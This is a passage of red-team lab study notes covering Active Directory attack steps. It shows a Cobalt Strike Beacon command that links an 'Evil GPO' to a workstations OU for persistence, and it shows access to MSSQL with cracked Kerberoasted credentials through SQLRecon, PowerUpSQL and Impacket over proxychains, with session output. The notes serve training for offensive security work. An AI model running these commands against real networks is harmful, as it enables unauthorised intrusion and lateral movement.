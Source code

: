 Next, apply the GPO to the target OU.

```
beacon> powershell Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"
```

Remember that HKLM autoruns require a reboot to execute.


## Gaining Access to MSSQL Servers

---

If the domain account being used to run the MSSQL Service is kerberoastable ([[Credential Theft#Kerberoasting]]), and if we can crack its plaintext password we can use it to gain access to the SQL instance. The credentials can be used with `make_token` in Beacon and `/a:WinToken` in SQLRecon; or the `/a:WinDomain` option with `/d:<domain> /u:<username> /p:<password>` in SQLRecon directly.

[[SQLRecon#Gaining Access to SQL Instance]]

Once we have access, there are several options for issuing queries against a SQL instance.  `Get-SQLQuery` from PowerUpSQL.

[[PowerUpSQL#Get-SQLQuery]]

or

[[SQLRecon#Query SQL Database]]

or `mssqlclient.py` from Impacket via proxychains:

```
proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.25:1433-<><>-OK
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL-2): Line 1: Changed database context to 'master'.
[*] INFO(SQL-2): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands

SQL> select @@servername;

--------------------------------------------------------------------------------------------------------------------------------

SQL-2
```

or a Windows SQL GUI, such as [HeidiSQL](https://www.heidisql.com/) via Proxifier:
